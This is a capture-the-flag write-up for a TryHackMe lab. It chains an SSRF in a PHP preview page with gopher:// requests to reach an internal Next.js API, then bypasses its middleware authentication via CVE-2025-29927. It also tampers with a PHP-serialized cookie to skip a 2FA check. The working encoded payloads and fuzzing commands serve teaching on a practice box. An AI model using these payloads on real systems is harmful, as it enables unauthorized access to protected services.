This box is rated hard difficulty on THM. It involves us exploiting a Server-Side Request Forgery attack to enumerate an internal web server and bypassing a few forms of authentication via specially crafted Gopher TCP requests. 

_Can you extract the secrets from the library?_

## Scanning & Enumeration
As always, I begin with an Nmap scan against the target IP to find all running services on the host; Repeating the same for UDP returns nothing.

```
$ sudo nmap -p22,80 -sCV 10.66.190.44 -oN fullscan-tcp
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-10 00:48 CDT
Nmap scan report for 10.66.190.44
Host is up (0.041s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a8:74:3d:db:35:10:c6:7d:f7:f2:1f:e8:fb:4f:1a:b4 (ECDSA)
|_  256 ef:b3:e1:bc:be:39:64:6c:e2:cd:75:b1:c4:0a:0f:99 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: TryBookMe - Online Library
|_http-server-header: Apache/2.4.58 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.45 seconds
```

There are just two ports open:
- SSH on port 22
- An Apache web server on port 80

Not a whole lot we can do with that version of OpenSSH without credentials so I fire up Ffuf to search for subdirectories and Vhosts in the background before heading over to the website.

```
$ ffuf -u http://10.66.190.44/FUZZ -w /opt/SecLists/directory-list-2.3-medium.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.66.190.44/FUZZ
 :: Wordlist         : FUZZ: /opt/SecLists/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

pdf                     [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 54ms]
management              [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 43ms]
javascript              [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 43ms]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 45ms]
:: Progress: [220560/220560] :: Job [1/1] :: 904 req/sec :: Duration: [0:04:11] :: Errors: 0 ::
```

Checking out the landing page shows a barren screen for what looks to be an online library. There are only two available documents that we can load to the page, both of which are filler content.



## Exploiting SSRF
The interesting thing here is that the site loads them as PDF documents from their local filesystem. Along with the preview, there are plenty of options for us to mess around with on the toolbar. I'm curious as to how the page is fetching these files, so I'll capture a request to one of the documents in Burp Suite.



### Initial Testing
Looks like it's making a GET request to the preview.php page with the URL parameter pointing at itself. We also discover that the default files are stored in the PDF directory which could be useful later. The request shows a domain of `cvssm1` which I'll add to our `/etc/hosts` and fuzz for any subdomains.



A quick test for Server-Side Request Forgery reveals that the server will reach out to files hosted on our machine. Repeating this with PHP code just reflects the contents but doesn't interpret it.



At this point I tried using the `file://` PHP wrapper to read files on the server, but this returns a message saying that it was blocked. Doing the same with the `php://filter/read=convert.base64-encode/resource=` filter also filters our request and it seems that only HTTP requests are allowed.



So, we can still use this parameter to forge requests as the server, meaning that previously blocked resources may be accessible now. My scans found the `/pdf/` and `/javascript/` directories which returned a 403 Forbidden when navigated towards, as well as a `/management` page that displayed a message of "Access Denied".

Fuzzing the first two for any sensitive files gave nothing interesting back, however the management page shows a login panel for the site's administrators.



Inspecting the source code reveals that it's making a POST request to nowhere, so brute-forcing this will be useless as it doesn't even respond with so much as an error.



### Fuzzing Internal Web Servers
This website honestly seems like a dead end, and for that reason I'll be fuzzing on localhost checking for internal ports open. This will return all web servers up and running that we didn't have access to earlier. We can create a quick number list for all possible TCP ports using the seq command.

```
$ seq 65555 > nums.txt 

$ $ ffuf -u 'http://cvssm1/preview.php?url=http://127.0.0.1:FUZZ' -w nums.txt --fw 1

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://cvssm1/preview.php?url=http://127.0.0.1:FUZZ
 :: Wordlist         : FUZZ: /home/cbev/nums.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 1
________________________________________________

80                      [Status: 200, Size: 1735, Words: 304, Lines: 65, Duration: 4324ms]
10000                   [Status: 200, Size: 6131, Words: 104, Lines: 1, Duration: 202ms]
:: Progress: [65535/65535] :: Job [1/1] :: 925 req/sec :: Duration: [0:01:14] :: Errors: 0 ::
```

Seems like there's just one other site on port 10000 and heading to it shows a deterrent warning and two tabs. We are already on the home page, but hovering over the API one would redirect us to `/customapi`. We'll have to add all subsequent directories to the URL on our own to maintain functionality though.



Attempting to go to this page does not work on either server which makes me think it's protected by some form of authentication. I proceed to fuzz for other directories on this server which returns an interesting 404 page.



Since this didn't look like an Apache 404 error so I refer to [0xdf's cheatsheet](https://0xdf.gitlab.io/cheatsheets/404#nextjs) which shows that this matches a Next.JS server. Viewing the source code on the main page also discloses that it's pulling static content from the `/_next` directory, being the standard for that technology.



## Crafting Payloads with Gopher
Considering that we know the tech stack and a potential sensitive directory, I move to finding other valid protocols that work for this URL parameter. Hopefully it's not just whitelisting the more secure ones because we won't be able to do much else here. I go down the list of common URI schemes in order to find which ones aren't blocked; You can find the list I used inside of [this GitHub repository](https://gist.github.com/haccer/4c728f1fa811e274d5328d1cb30a6ff8).

```
$ ffuf -u 'http://10.66.190.44/preview.php?url=FUZZ://127.0.0.1:10000/customapi' -w schemes.txt --fw 1,6

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.66.190.44/preview.php?url=FUZZ://127.0.0.1:10000/customapi
 :: Wordlist         : FUZZ: /home/cbev/schemes.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 1,6
________________________________________________

gopher                  [Status: 200, Size: 47, Words: 5, Lines: 4, Duration: 366ms]
http                    [Status: 200, Size: 6131, Words: 104, Lines: 1, Duration: 659ms]
:: Progress: [288/288] :: Job [1/1] :: 109 req/sec :: Duration: [0:00:02] :: Errors: 0 ::
```

Filtering out false positive, we discover that gopher can be utilized to retrieve that API page.

If you've never heard of it before - The Gopher protocol is an early internet protocol that retrieves documents using a simple text-based system over TCP. Unlike HTTP, it allows sending raw byte sequences to a server. When combined with Server-Side Request Forgery (SSRF), attackers can abuse `gopher://` URLs to send arbitrary commands to internal services, potentially leading to data access, service abuse, or even remote code execution.

### Request to CustomAPI
Attempting to just use this protocol in place of HTTP will return a 400 Bad Request error, this is because we're not communicating with a Gopher server and it can't interpret our request.



Instead of using this protocol normally, we can craft arbitrary TCP payloads that will retrieve page contents due to how the server responds with data. I'll be trail and erroring in Burp Suite as it's what I'm familiar with. A bit of research shows that using this protocol is relatively simple, I refer to the following structure throughout the process.

```
gopher://<host>:<port>/_<payload>
```

Now let's craft a payload to see what's on that API page. Our original request should look something like making a GET request to the `/customapi` resource on localhost over port 10000:

```
GET /customapi HTTP/1.1
Host: 127.0.0.1:10000
```

We'll first need to URL encode it. Another thing to note is that HTTP/1.1 requires a Carriage Return Line Feed (CRLF) as a line terminator, so we must append `\r\n` to our payloads to create a valid request (be sure to encode these as well).

```
GET%20/customapi%20HTTP/1.1%0D%0AHost%3A%20127.0.0.1:10000%0D%0A%0D%0A
```

Now we're ready to pass it into our request via the URL parameter. Once again, we'll need to URL encode it for our payload to be preserved.

```
GET /preview.php?url=gopher://127.0.0.1:10000/_GET%2520/customapi%2520HTTP/1.1%250D%250AHost%253A%2520127.0.0.1:10000%250D%250A%250D%250A HTTP/1.1
Host: cvssm1
```

Making this request in a new repeater tab shows that the server is responding with a 307 Temporary Redirect. I thought this to be strange as I rarely see this code, however a bit of digging showed that this is common when trying to access resources that require authentication. Instead of displaying the API page, it would redirect us to the home page once again, explaining the behavior witnessed earlier.



### NextJS Authentication Bypass
I'm guessing there's no login page because it would've probably sent us there instead, meaning we need a way to bypass authentication within the request itself in order to view this page. I already know that the server is built on Next.JS, so I zero in on that tech. There was a fairly recent vulnerability making the rounds in headlines which fit our needs to a T.

[CVE‑2025‑29927](https://nvd.nist.gov/vuln/detail/CVE-2025-29927) is an authentication bypass vulnerability in the Next.js middleware system. The framework trusted the internal `x-middleware-subrequest` header, which is normally used to mark internal routing subrequests and prevent middleware from running multiple times. Because the header was not validated as server‑generated, attackers could include it in external requests to trick Next.js into skipping middleware execution. If authentication or authorization checks were implemented in middleware, this allowed attackers to directly access protected routes or APIs without being authenticated.

To exploit this, we simply need to add the `x-middleware-subrequest: middleware` within our Gopher request payload.

```
GET /preview.php?url=gopher://127.0.0.1:10000/_GET%2520/customapi%2520HTTP/1.1%250D%250AHost%253A%2520127.0.0.1:10000%250D%250Ax-middleware-subrequest%253A%2520middleware%250D%250A%250D%250A HTTP/1.1
Host: cvssm1
```



Et voila, the server responds with the contents of `/customapi`. I'll copy/paste this into an [HTML beautifier](https://codebeautify.org/htmlviewer) to make it both render it and make it a bit easier to parse.



### Auth Bypass on Management Panel
That reveals that the page is undergoing maintenance and rewards us with both the first flag and credentials for a user on the box. Attempting to use these over SSH to get a foothold doesn't work as password authentication has been disabled, meaning we'll need a key or reverse shell.

We did find that `/management` page earlier on the primary website that required credentials to access it, so let's repeat the same process with Gopher to grab a `PHPSESSID` cookie. This time we're sending a POST request to that form while specifying the mandatory headers, being Content-Type and Content-Length.

```
POST /management/ HTTP/1.1
Host: 127.0.0.1
Content-Length: 39
Content-Type: application/x-www-form-urlencoded

username=librarian&password=[REDACTED]
```

Running through the steps again gives us a final payload that should look similar to:

```
GET /preview.php?url=gopher://127.0.0.1:80/_POST%2520/management/%2520HTTP/1.1%250D%250AHost%253A%2520127.0.0.1%250D%250AContent-Length%253A%252039%250D%250AContent-Type%253A%2520application/x-www-form-urlencoded%250D%250A%250D%250Ausername=librarian%2526password=PASSWORD__%250D%250A HTTP/1.1
Host: cvssm1
```

Note: Replace the password value with the one gathered from the API page, I did not include it in the request.



As we can see, the server provides us with an auth_token cookie and also redirects us to the 2fa.php page for a second authentication check. URL decoding that string shows a PHP serialized object and has the validated variable set to 0 (False).



We obviously want to be validated in order to grab a session, so we must change the value of `b` from 0 to 1 (False to True). Hopefully by doing so, we'll be able to bypass the 2FA in place and login to the management dashboard. We must provide the server with the `auth_token` and a matching `PHPSESSID`, the request will look something like:

```
GET /management/2fa.php HTTP/1.1
Host: 127.0.0.1
Cookie: auth_token=O%3A9%3A%22AuthToken%22%3A1%3A%7Bs%3A9%3A%22validated%22%3Bb%3A0%3B%7D; PHPSESSID=dd7q2rj89ukliaslabhuhvbuav
Host: cvssm1
```

Repeating the same steps as before and sufficiently URL encoding the payload leaves us with a successful final request.

```
GET /preview.php?url=gopher://127.0.0.1:80/_GET%2520/management/2fa.php%2520HTTP/1.1%250D%250AHost%253A%2520127.0.0.1%250D%250ACookie%253A%2520auth_token%3dO%25253A9%25253A%252522AuthToken%252522%25253A1%25253A%25257Bs%25253A9%25253A%252522validated%252522%25253Bb%25253A1%25253B%25257D;%2520PHPSESSID%3ddd7q2rj89ukliaslabhuhvbuav%250D%250A%250D%250A HTTP/1.1
Host: cvssm1
```

Sending that over validates and grants a session for the management page, in turn giving us the second flag to complete this challenge.



That's all y'all, this box was very difficult for me as I have no real experience with exploiting Gopher. I don't know if I was just unlucky, but this box was not too keen on staying alive for very long. My instance was terminated at least twice when testing certain payloads and it seemed like sending parallel HTTP requests would kick it to the grave.

Either way I still thoroughly enjoyed it, SSRF is always a straightforward thing to test since abusing it typically focuses on accessing internal or forbidden resources. I hope this was helpful to anyone following along or stuck like I was and happy hacking!
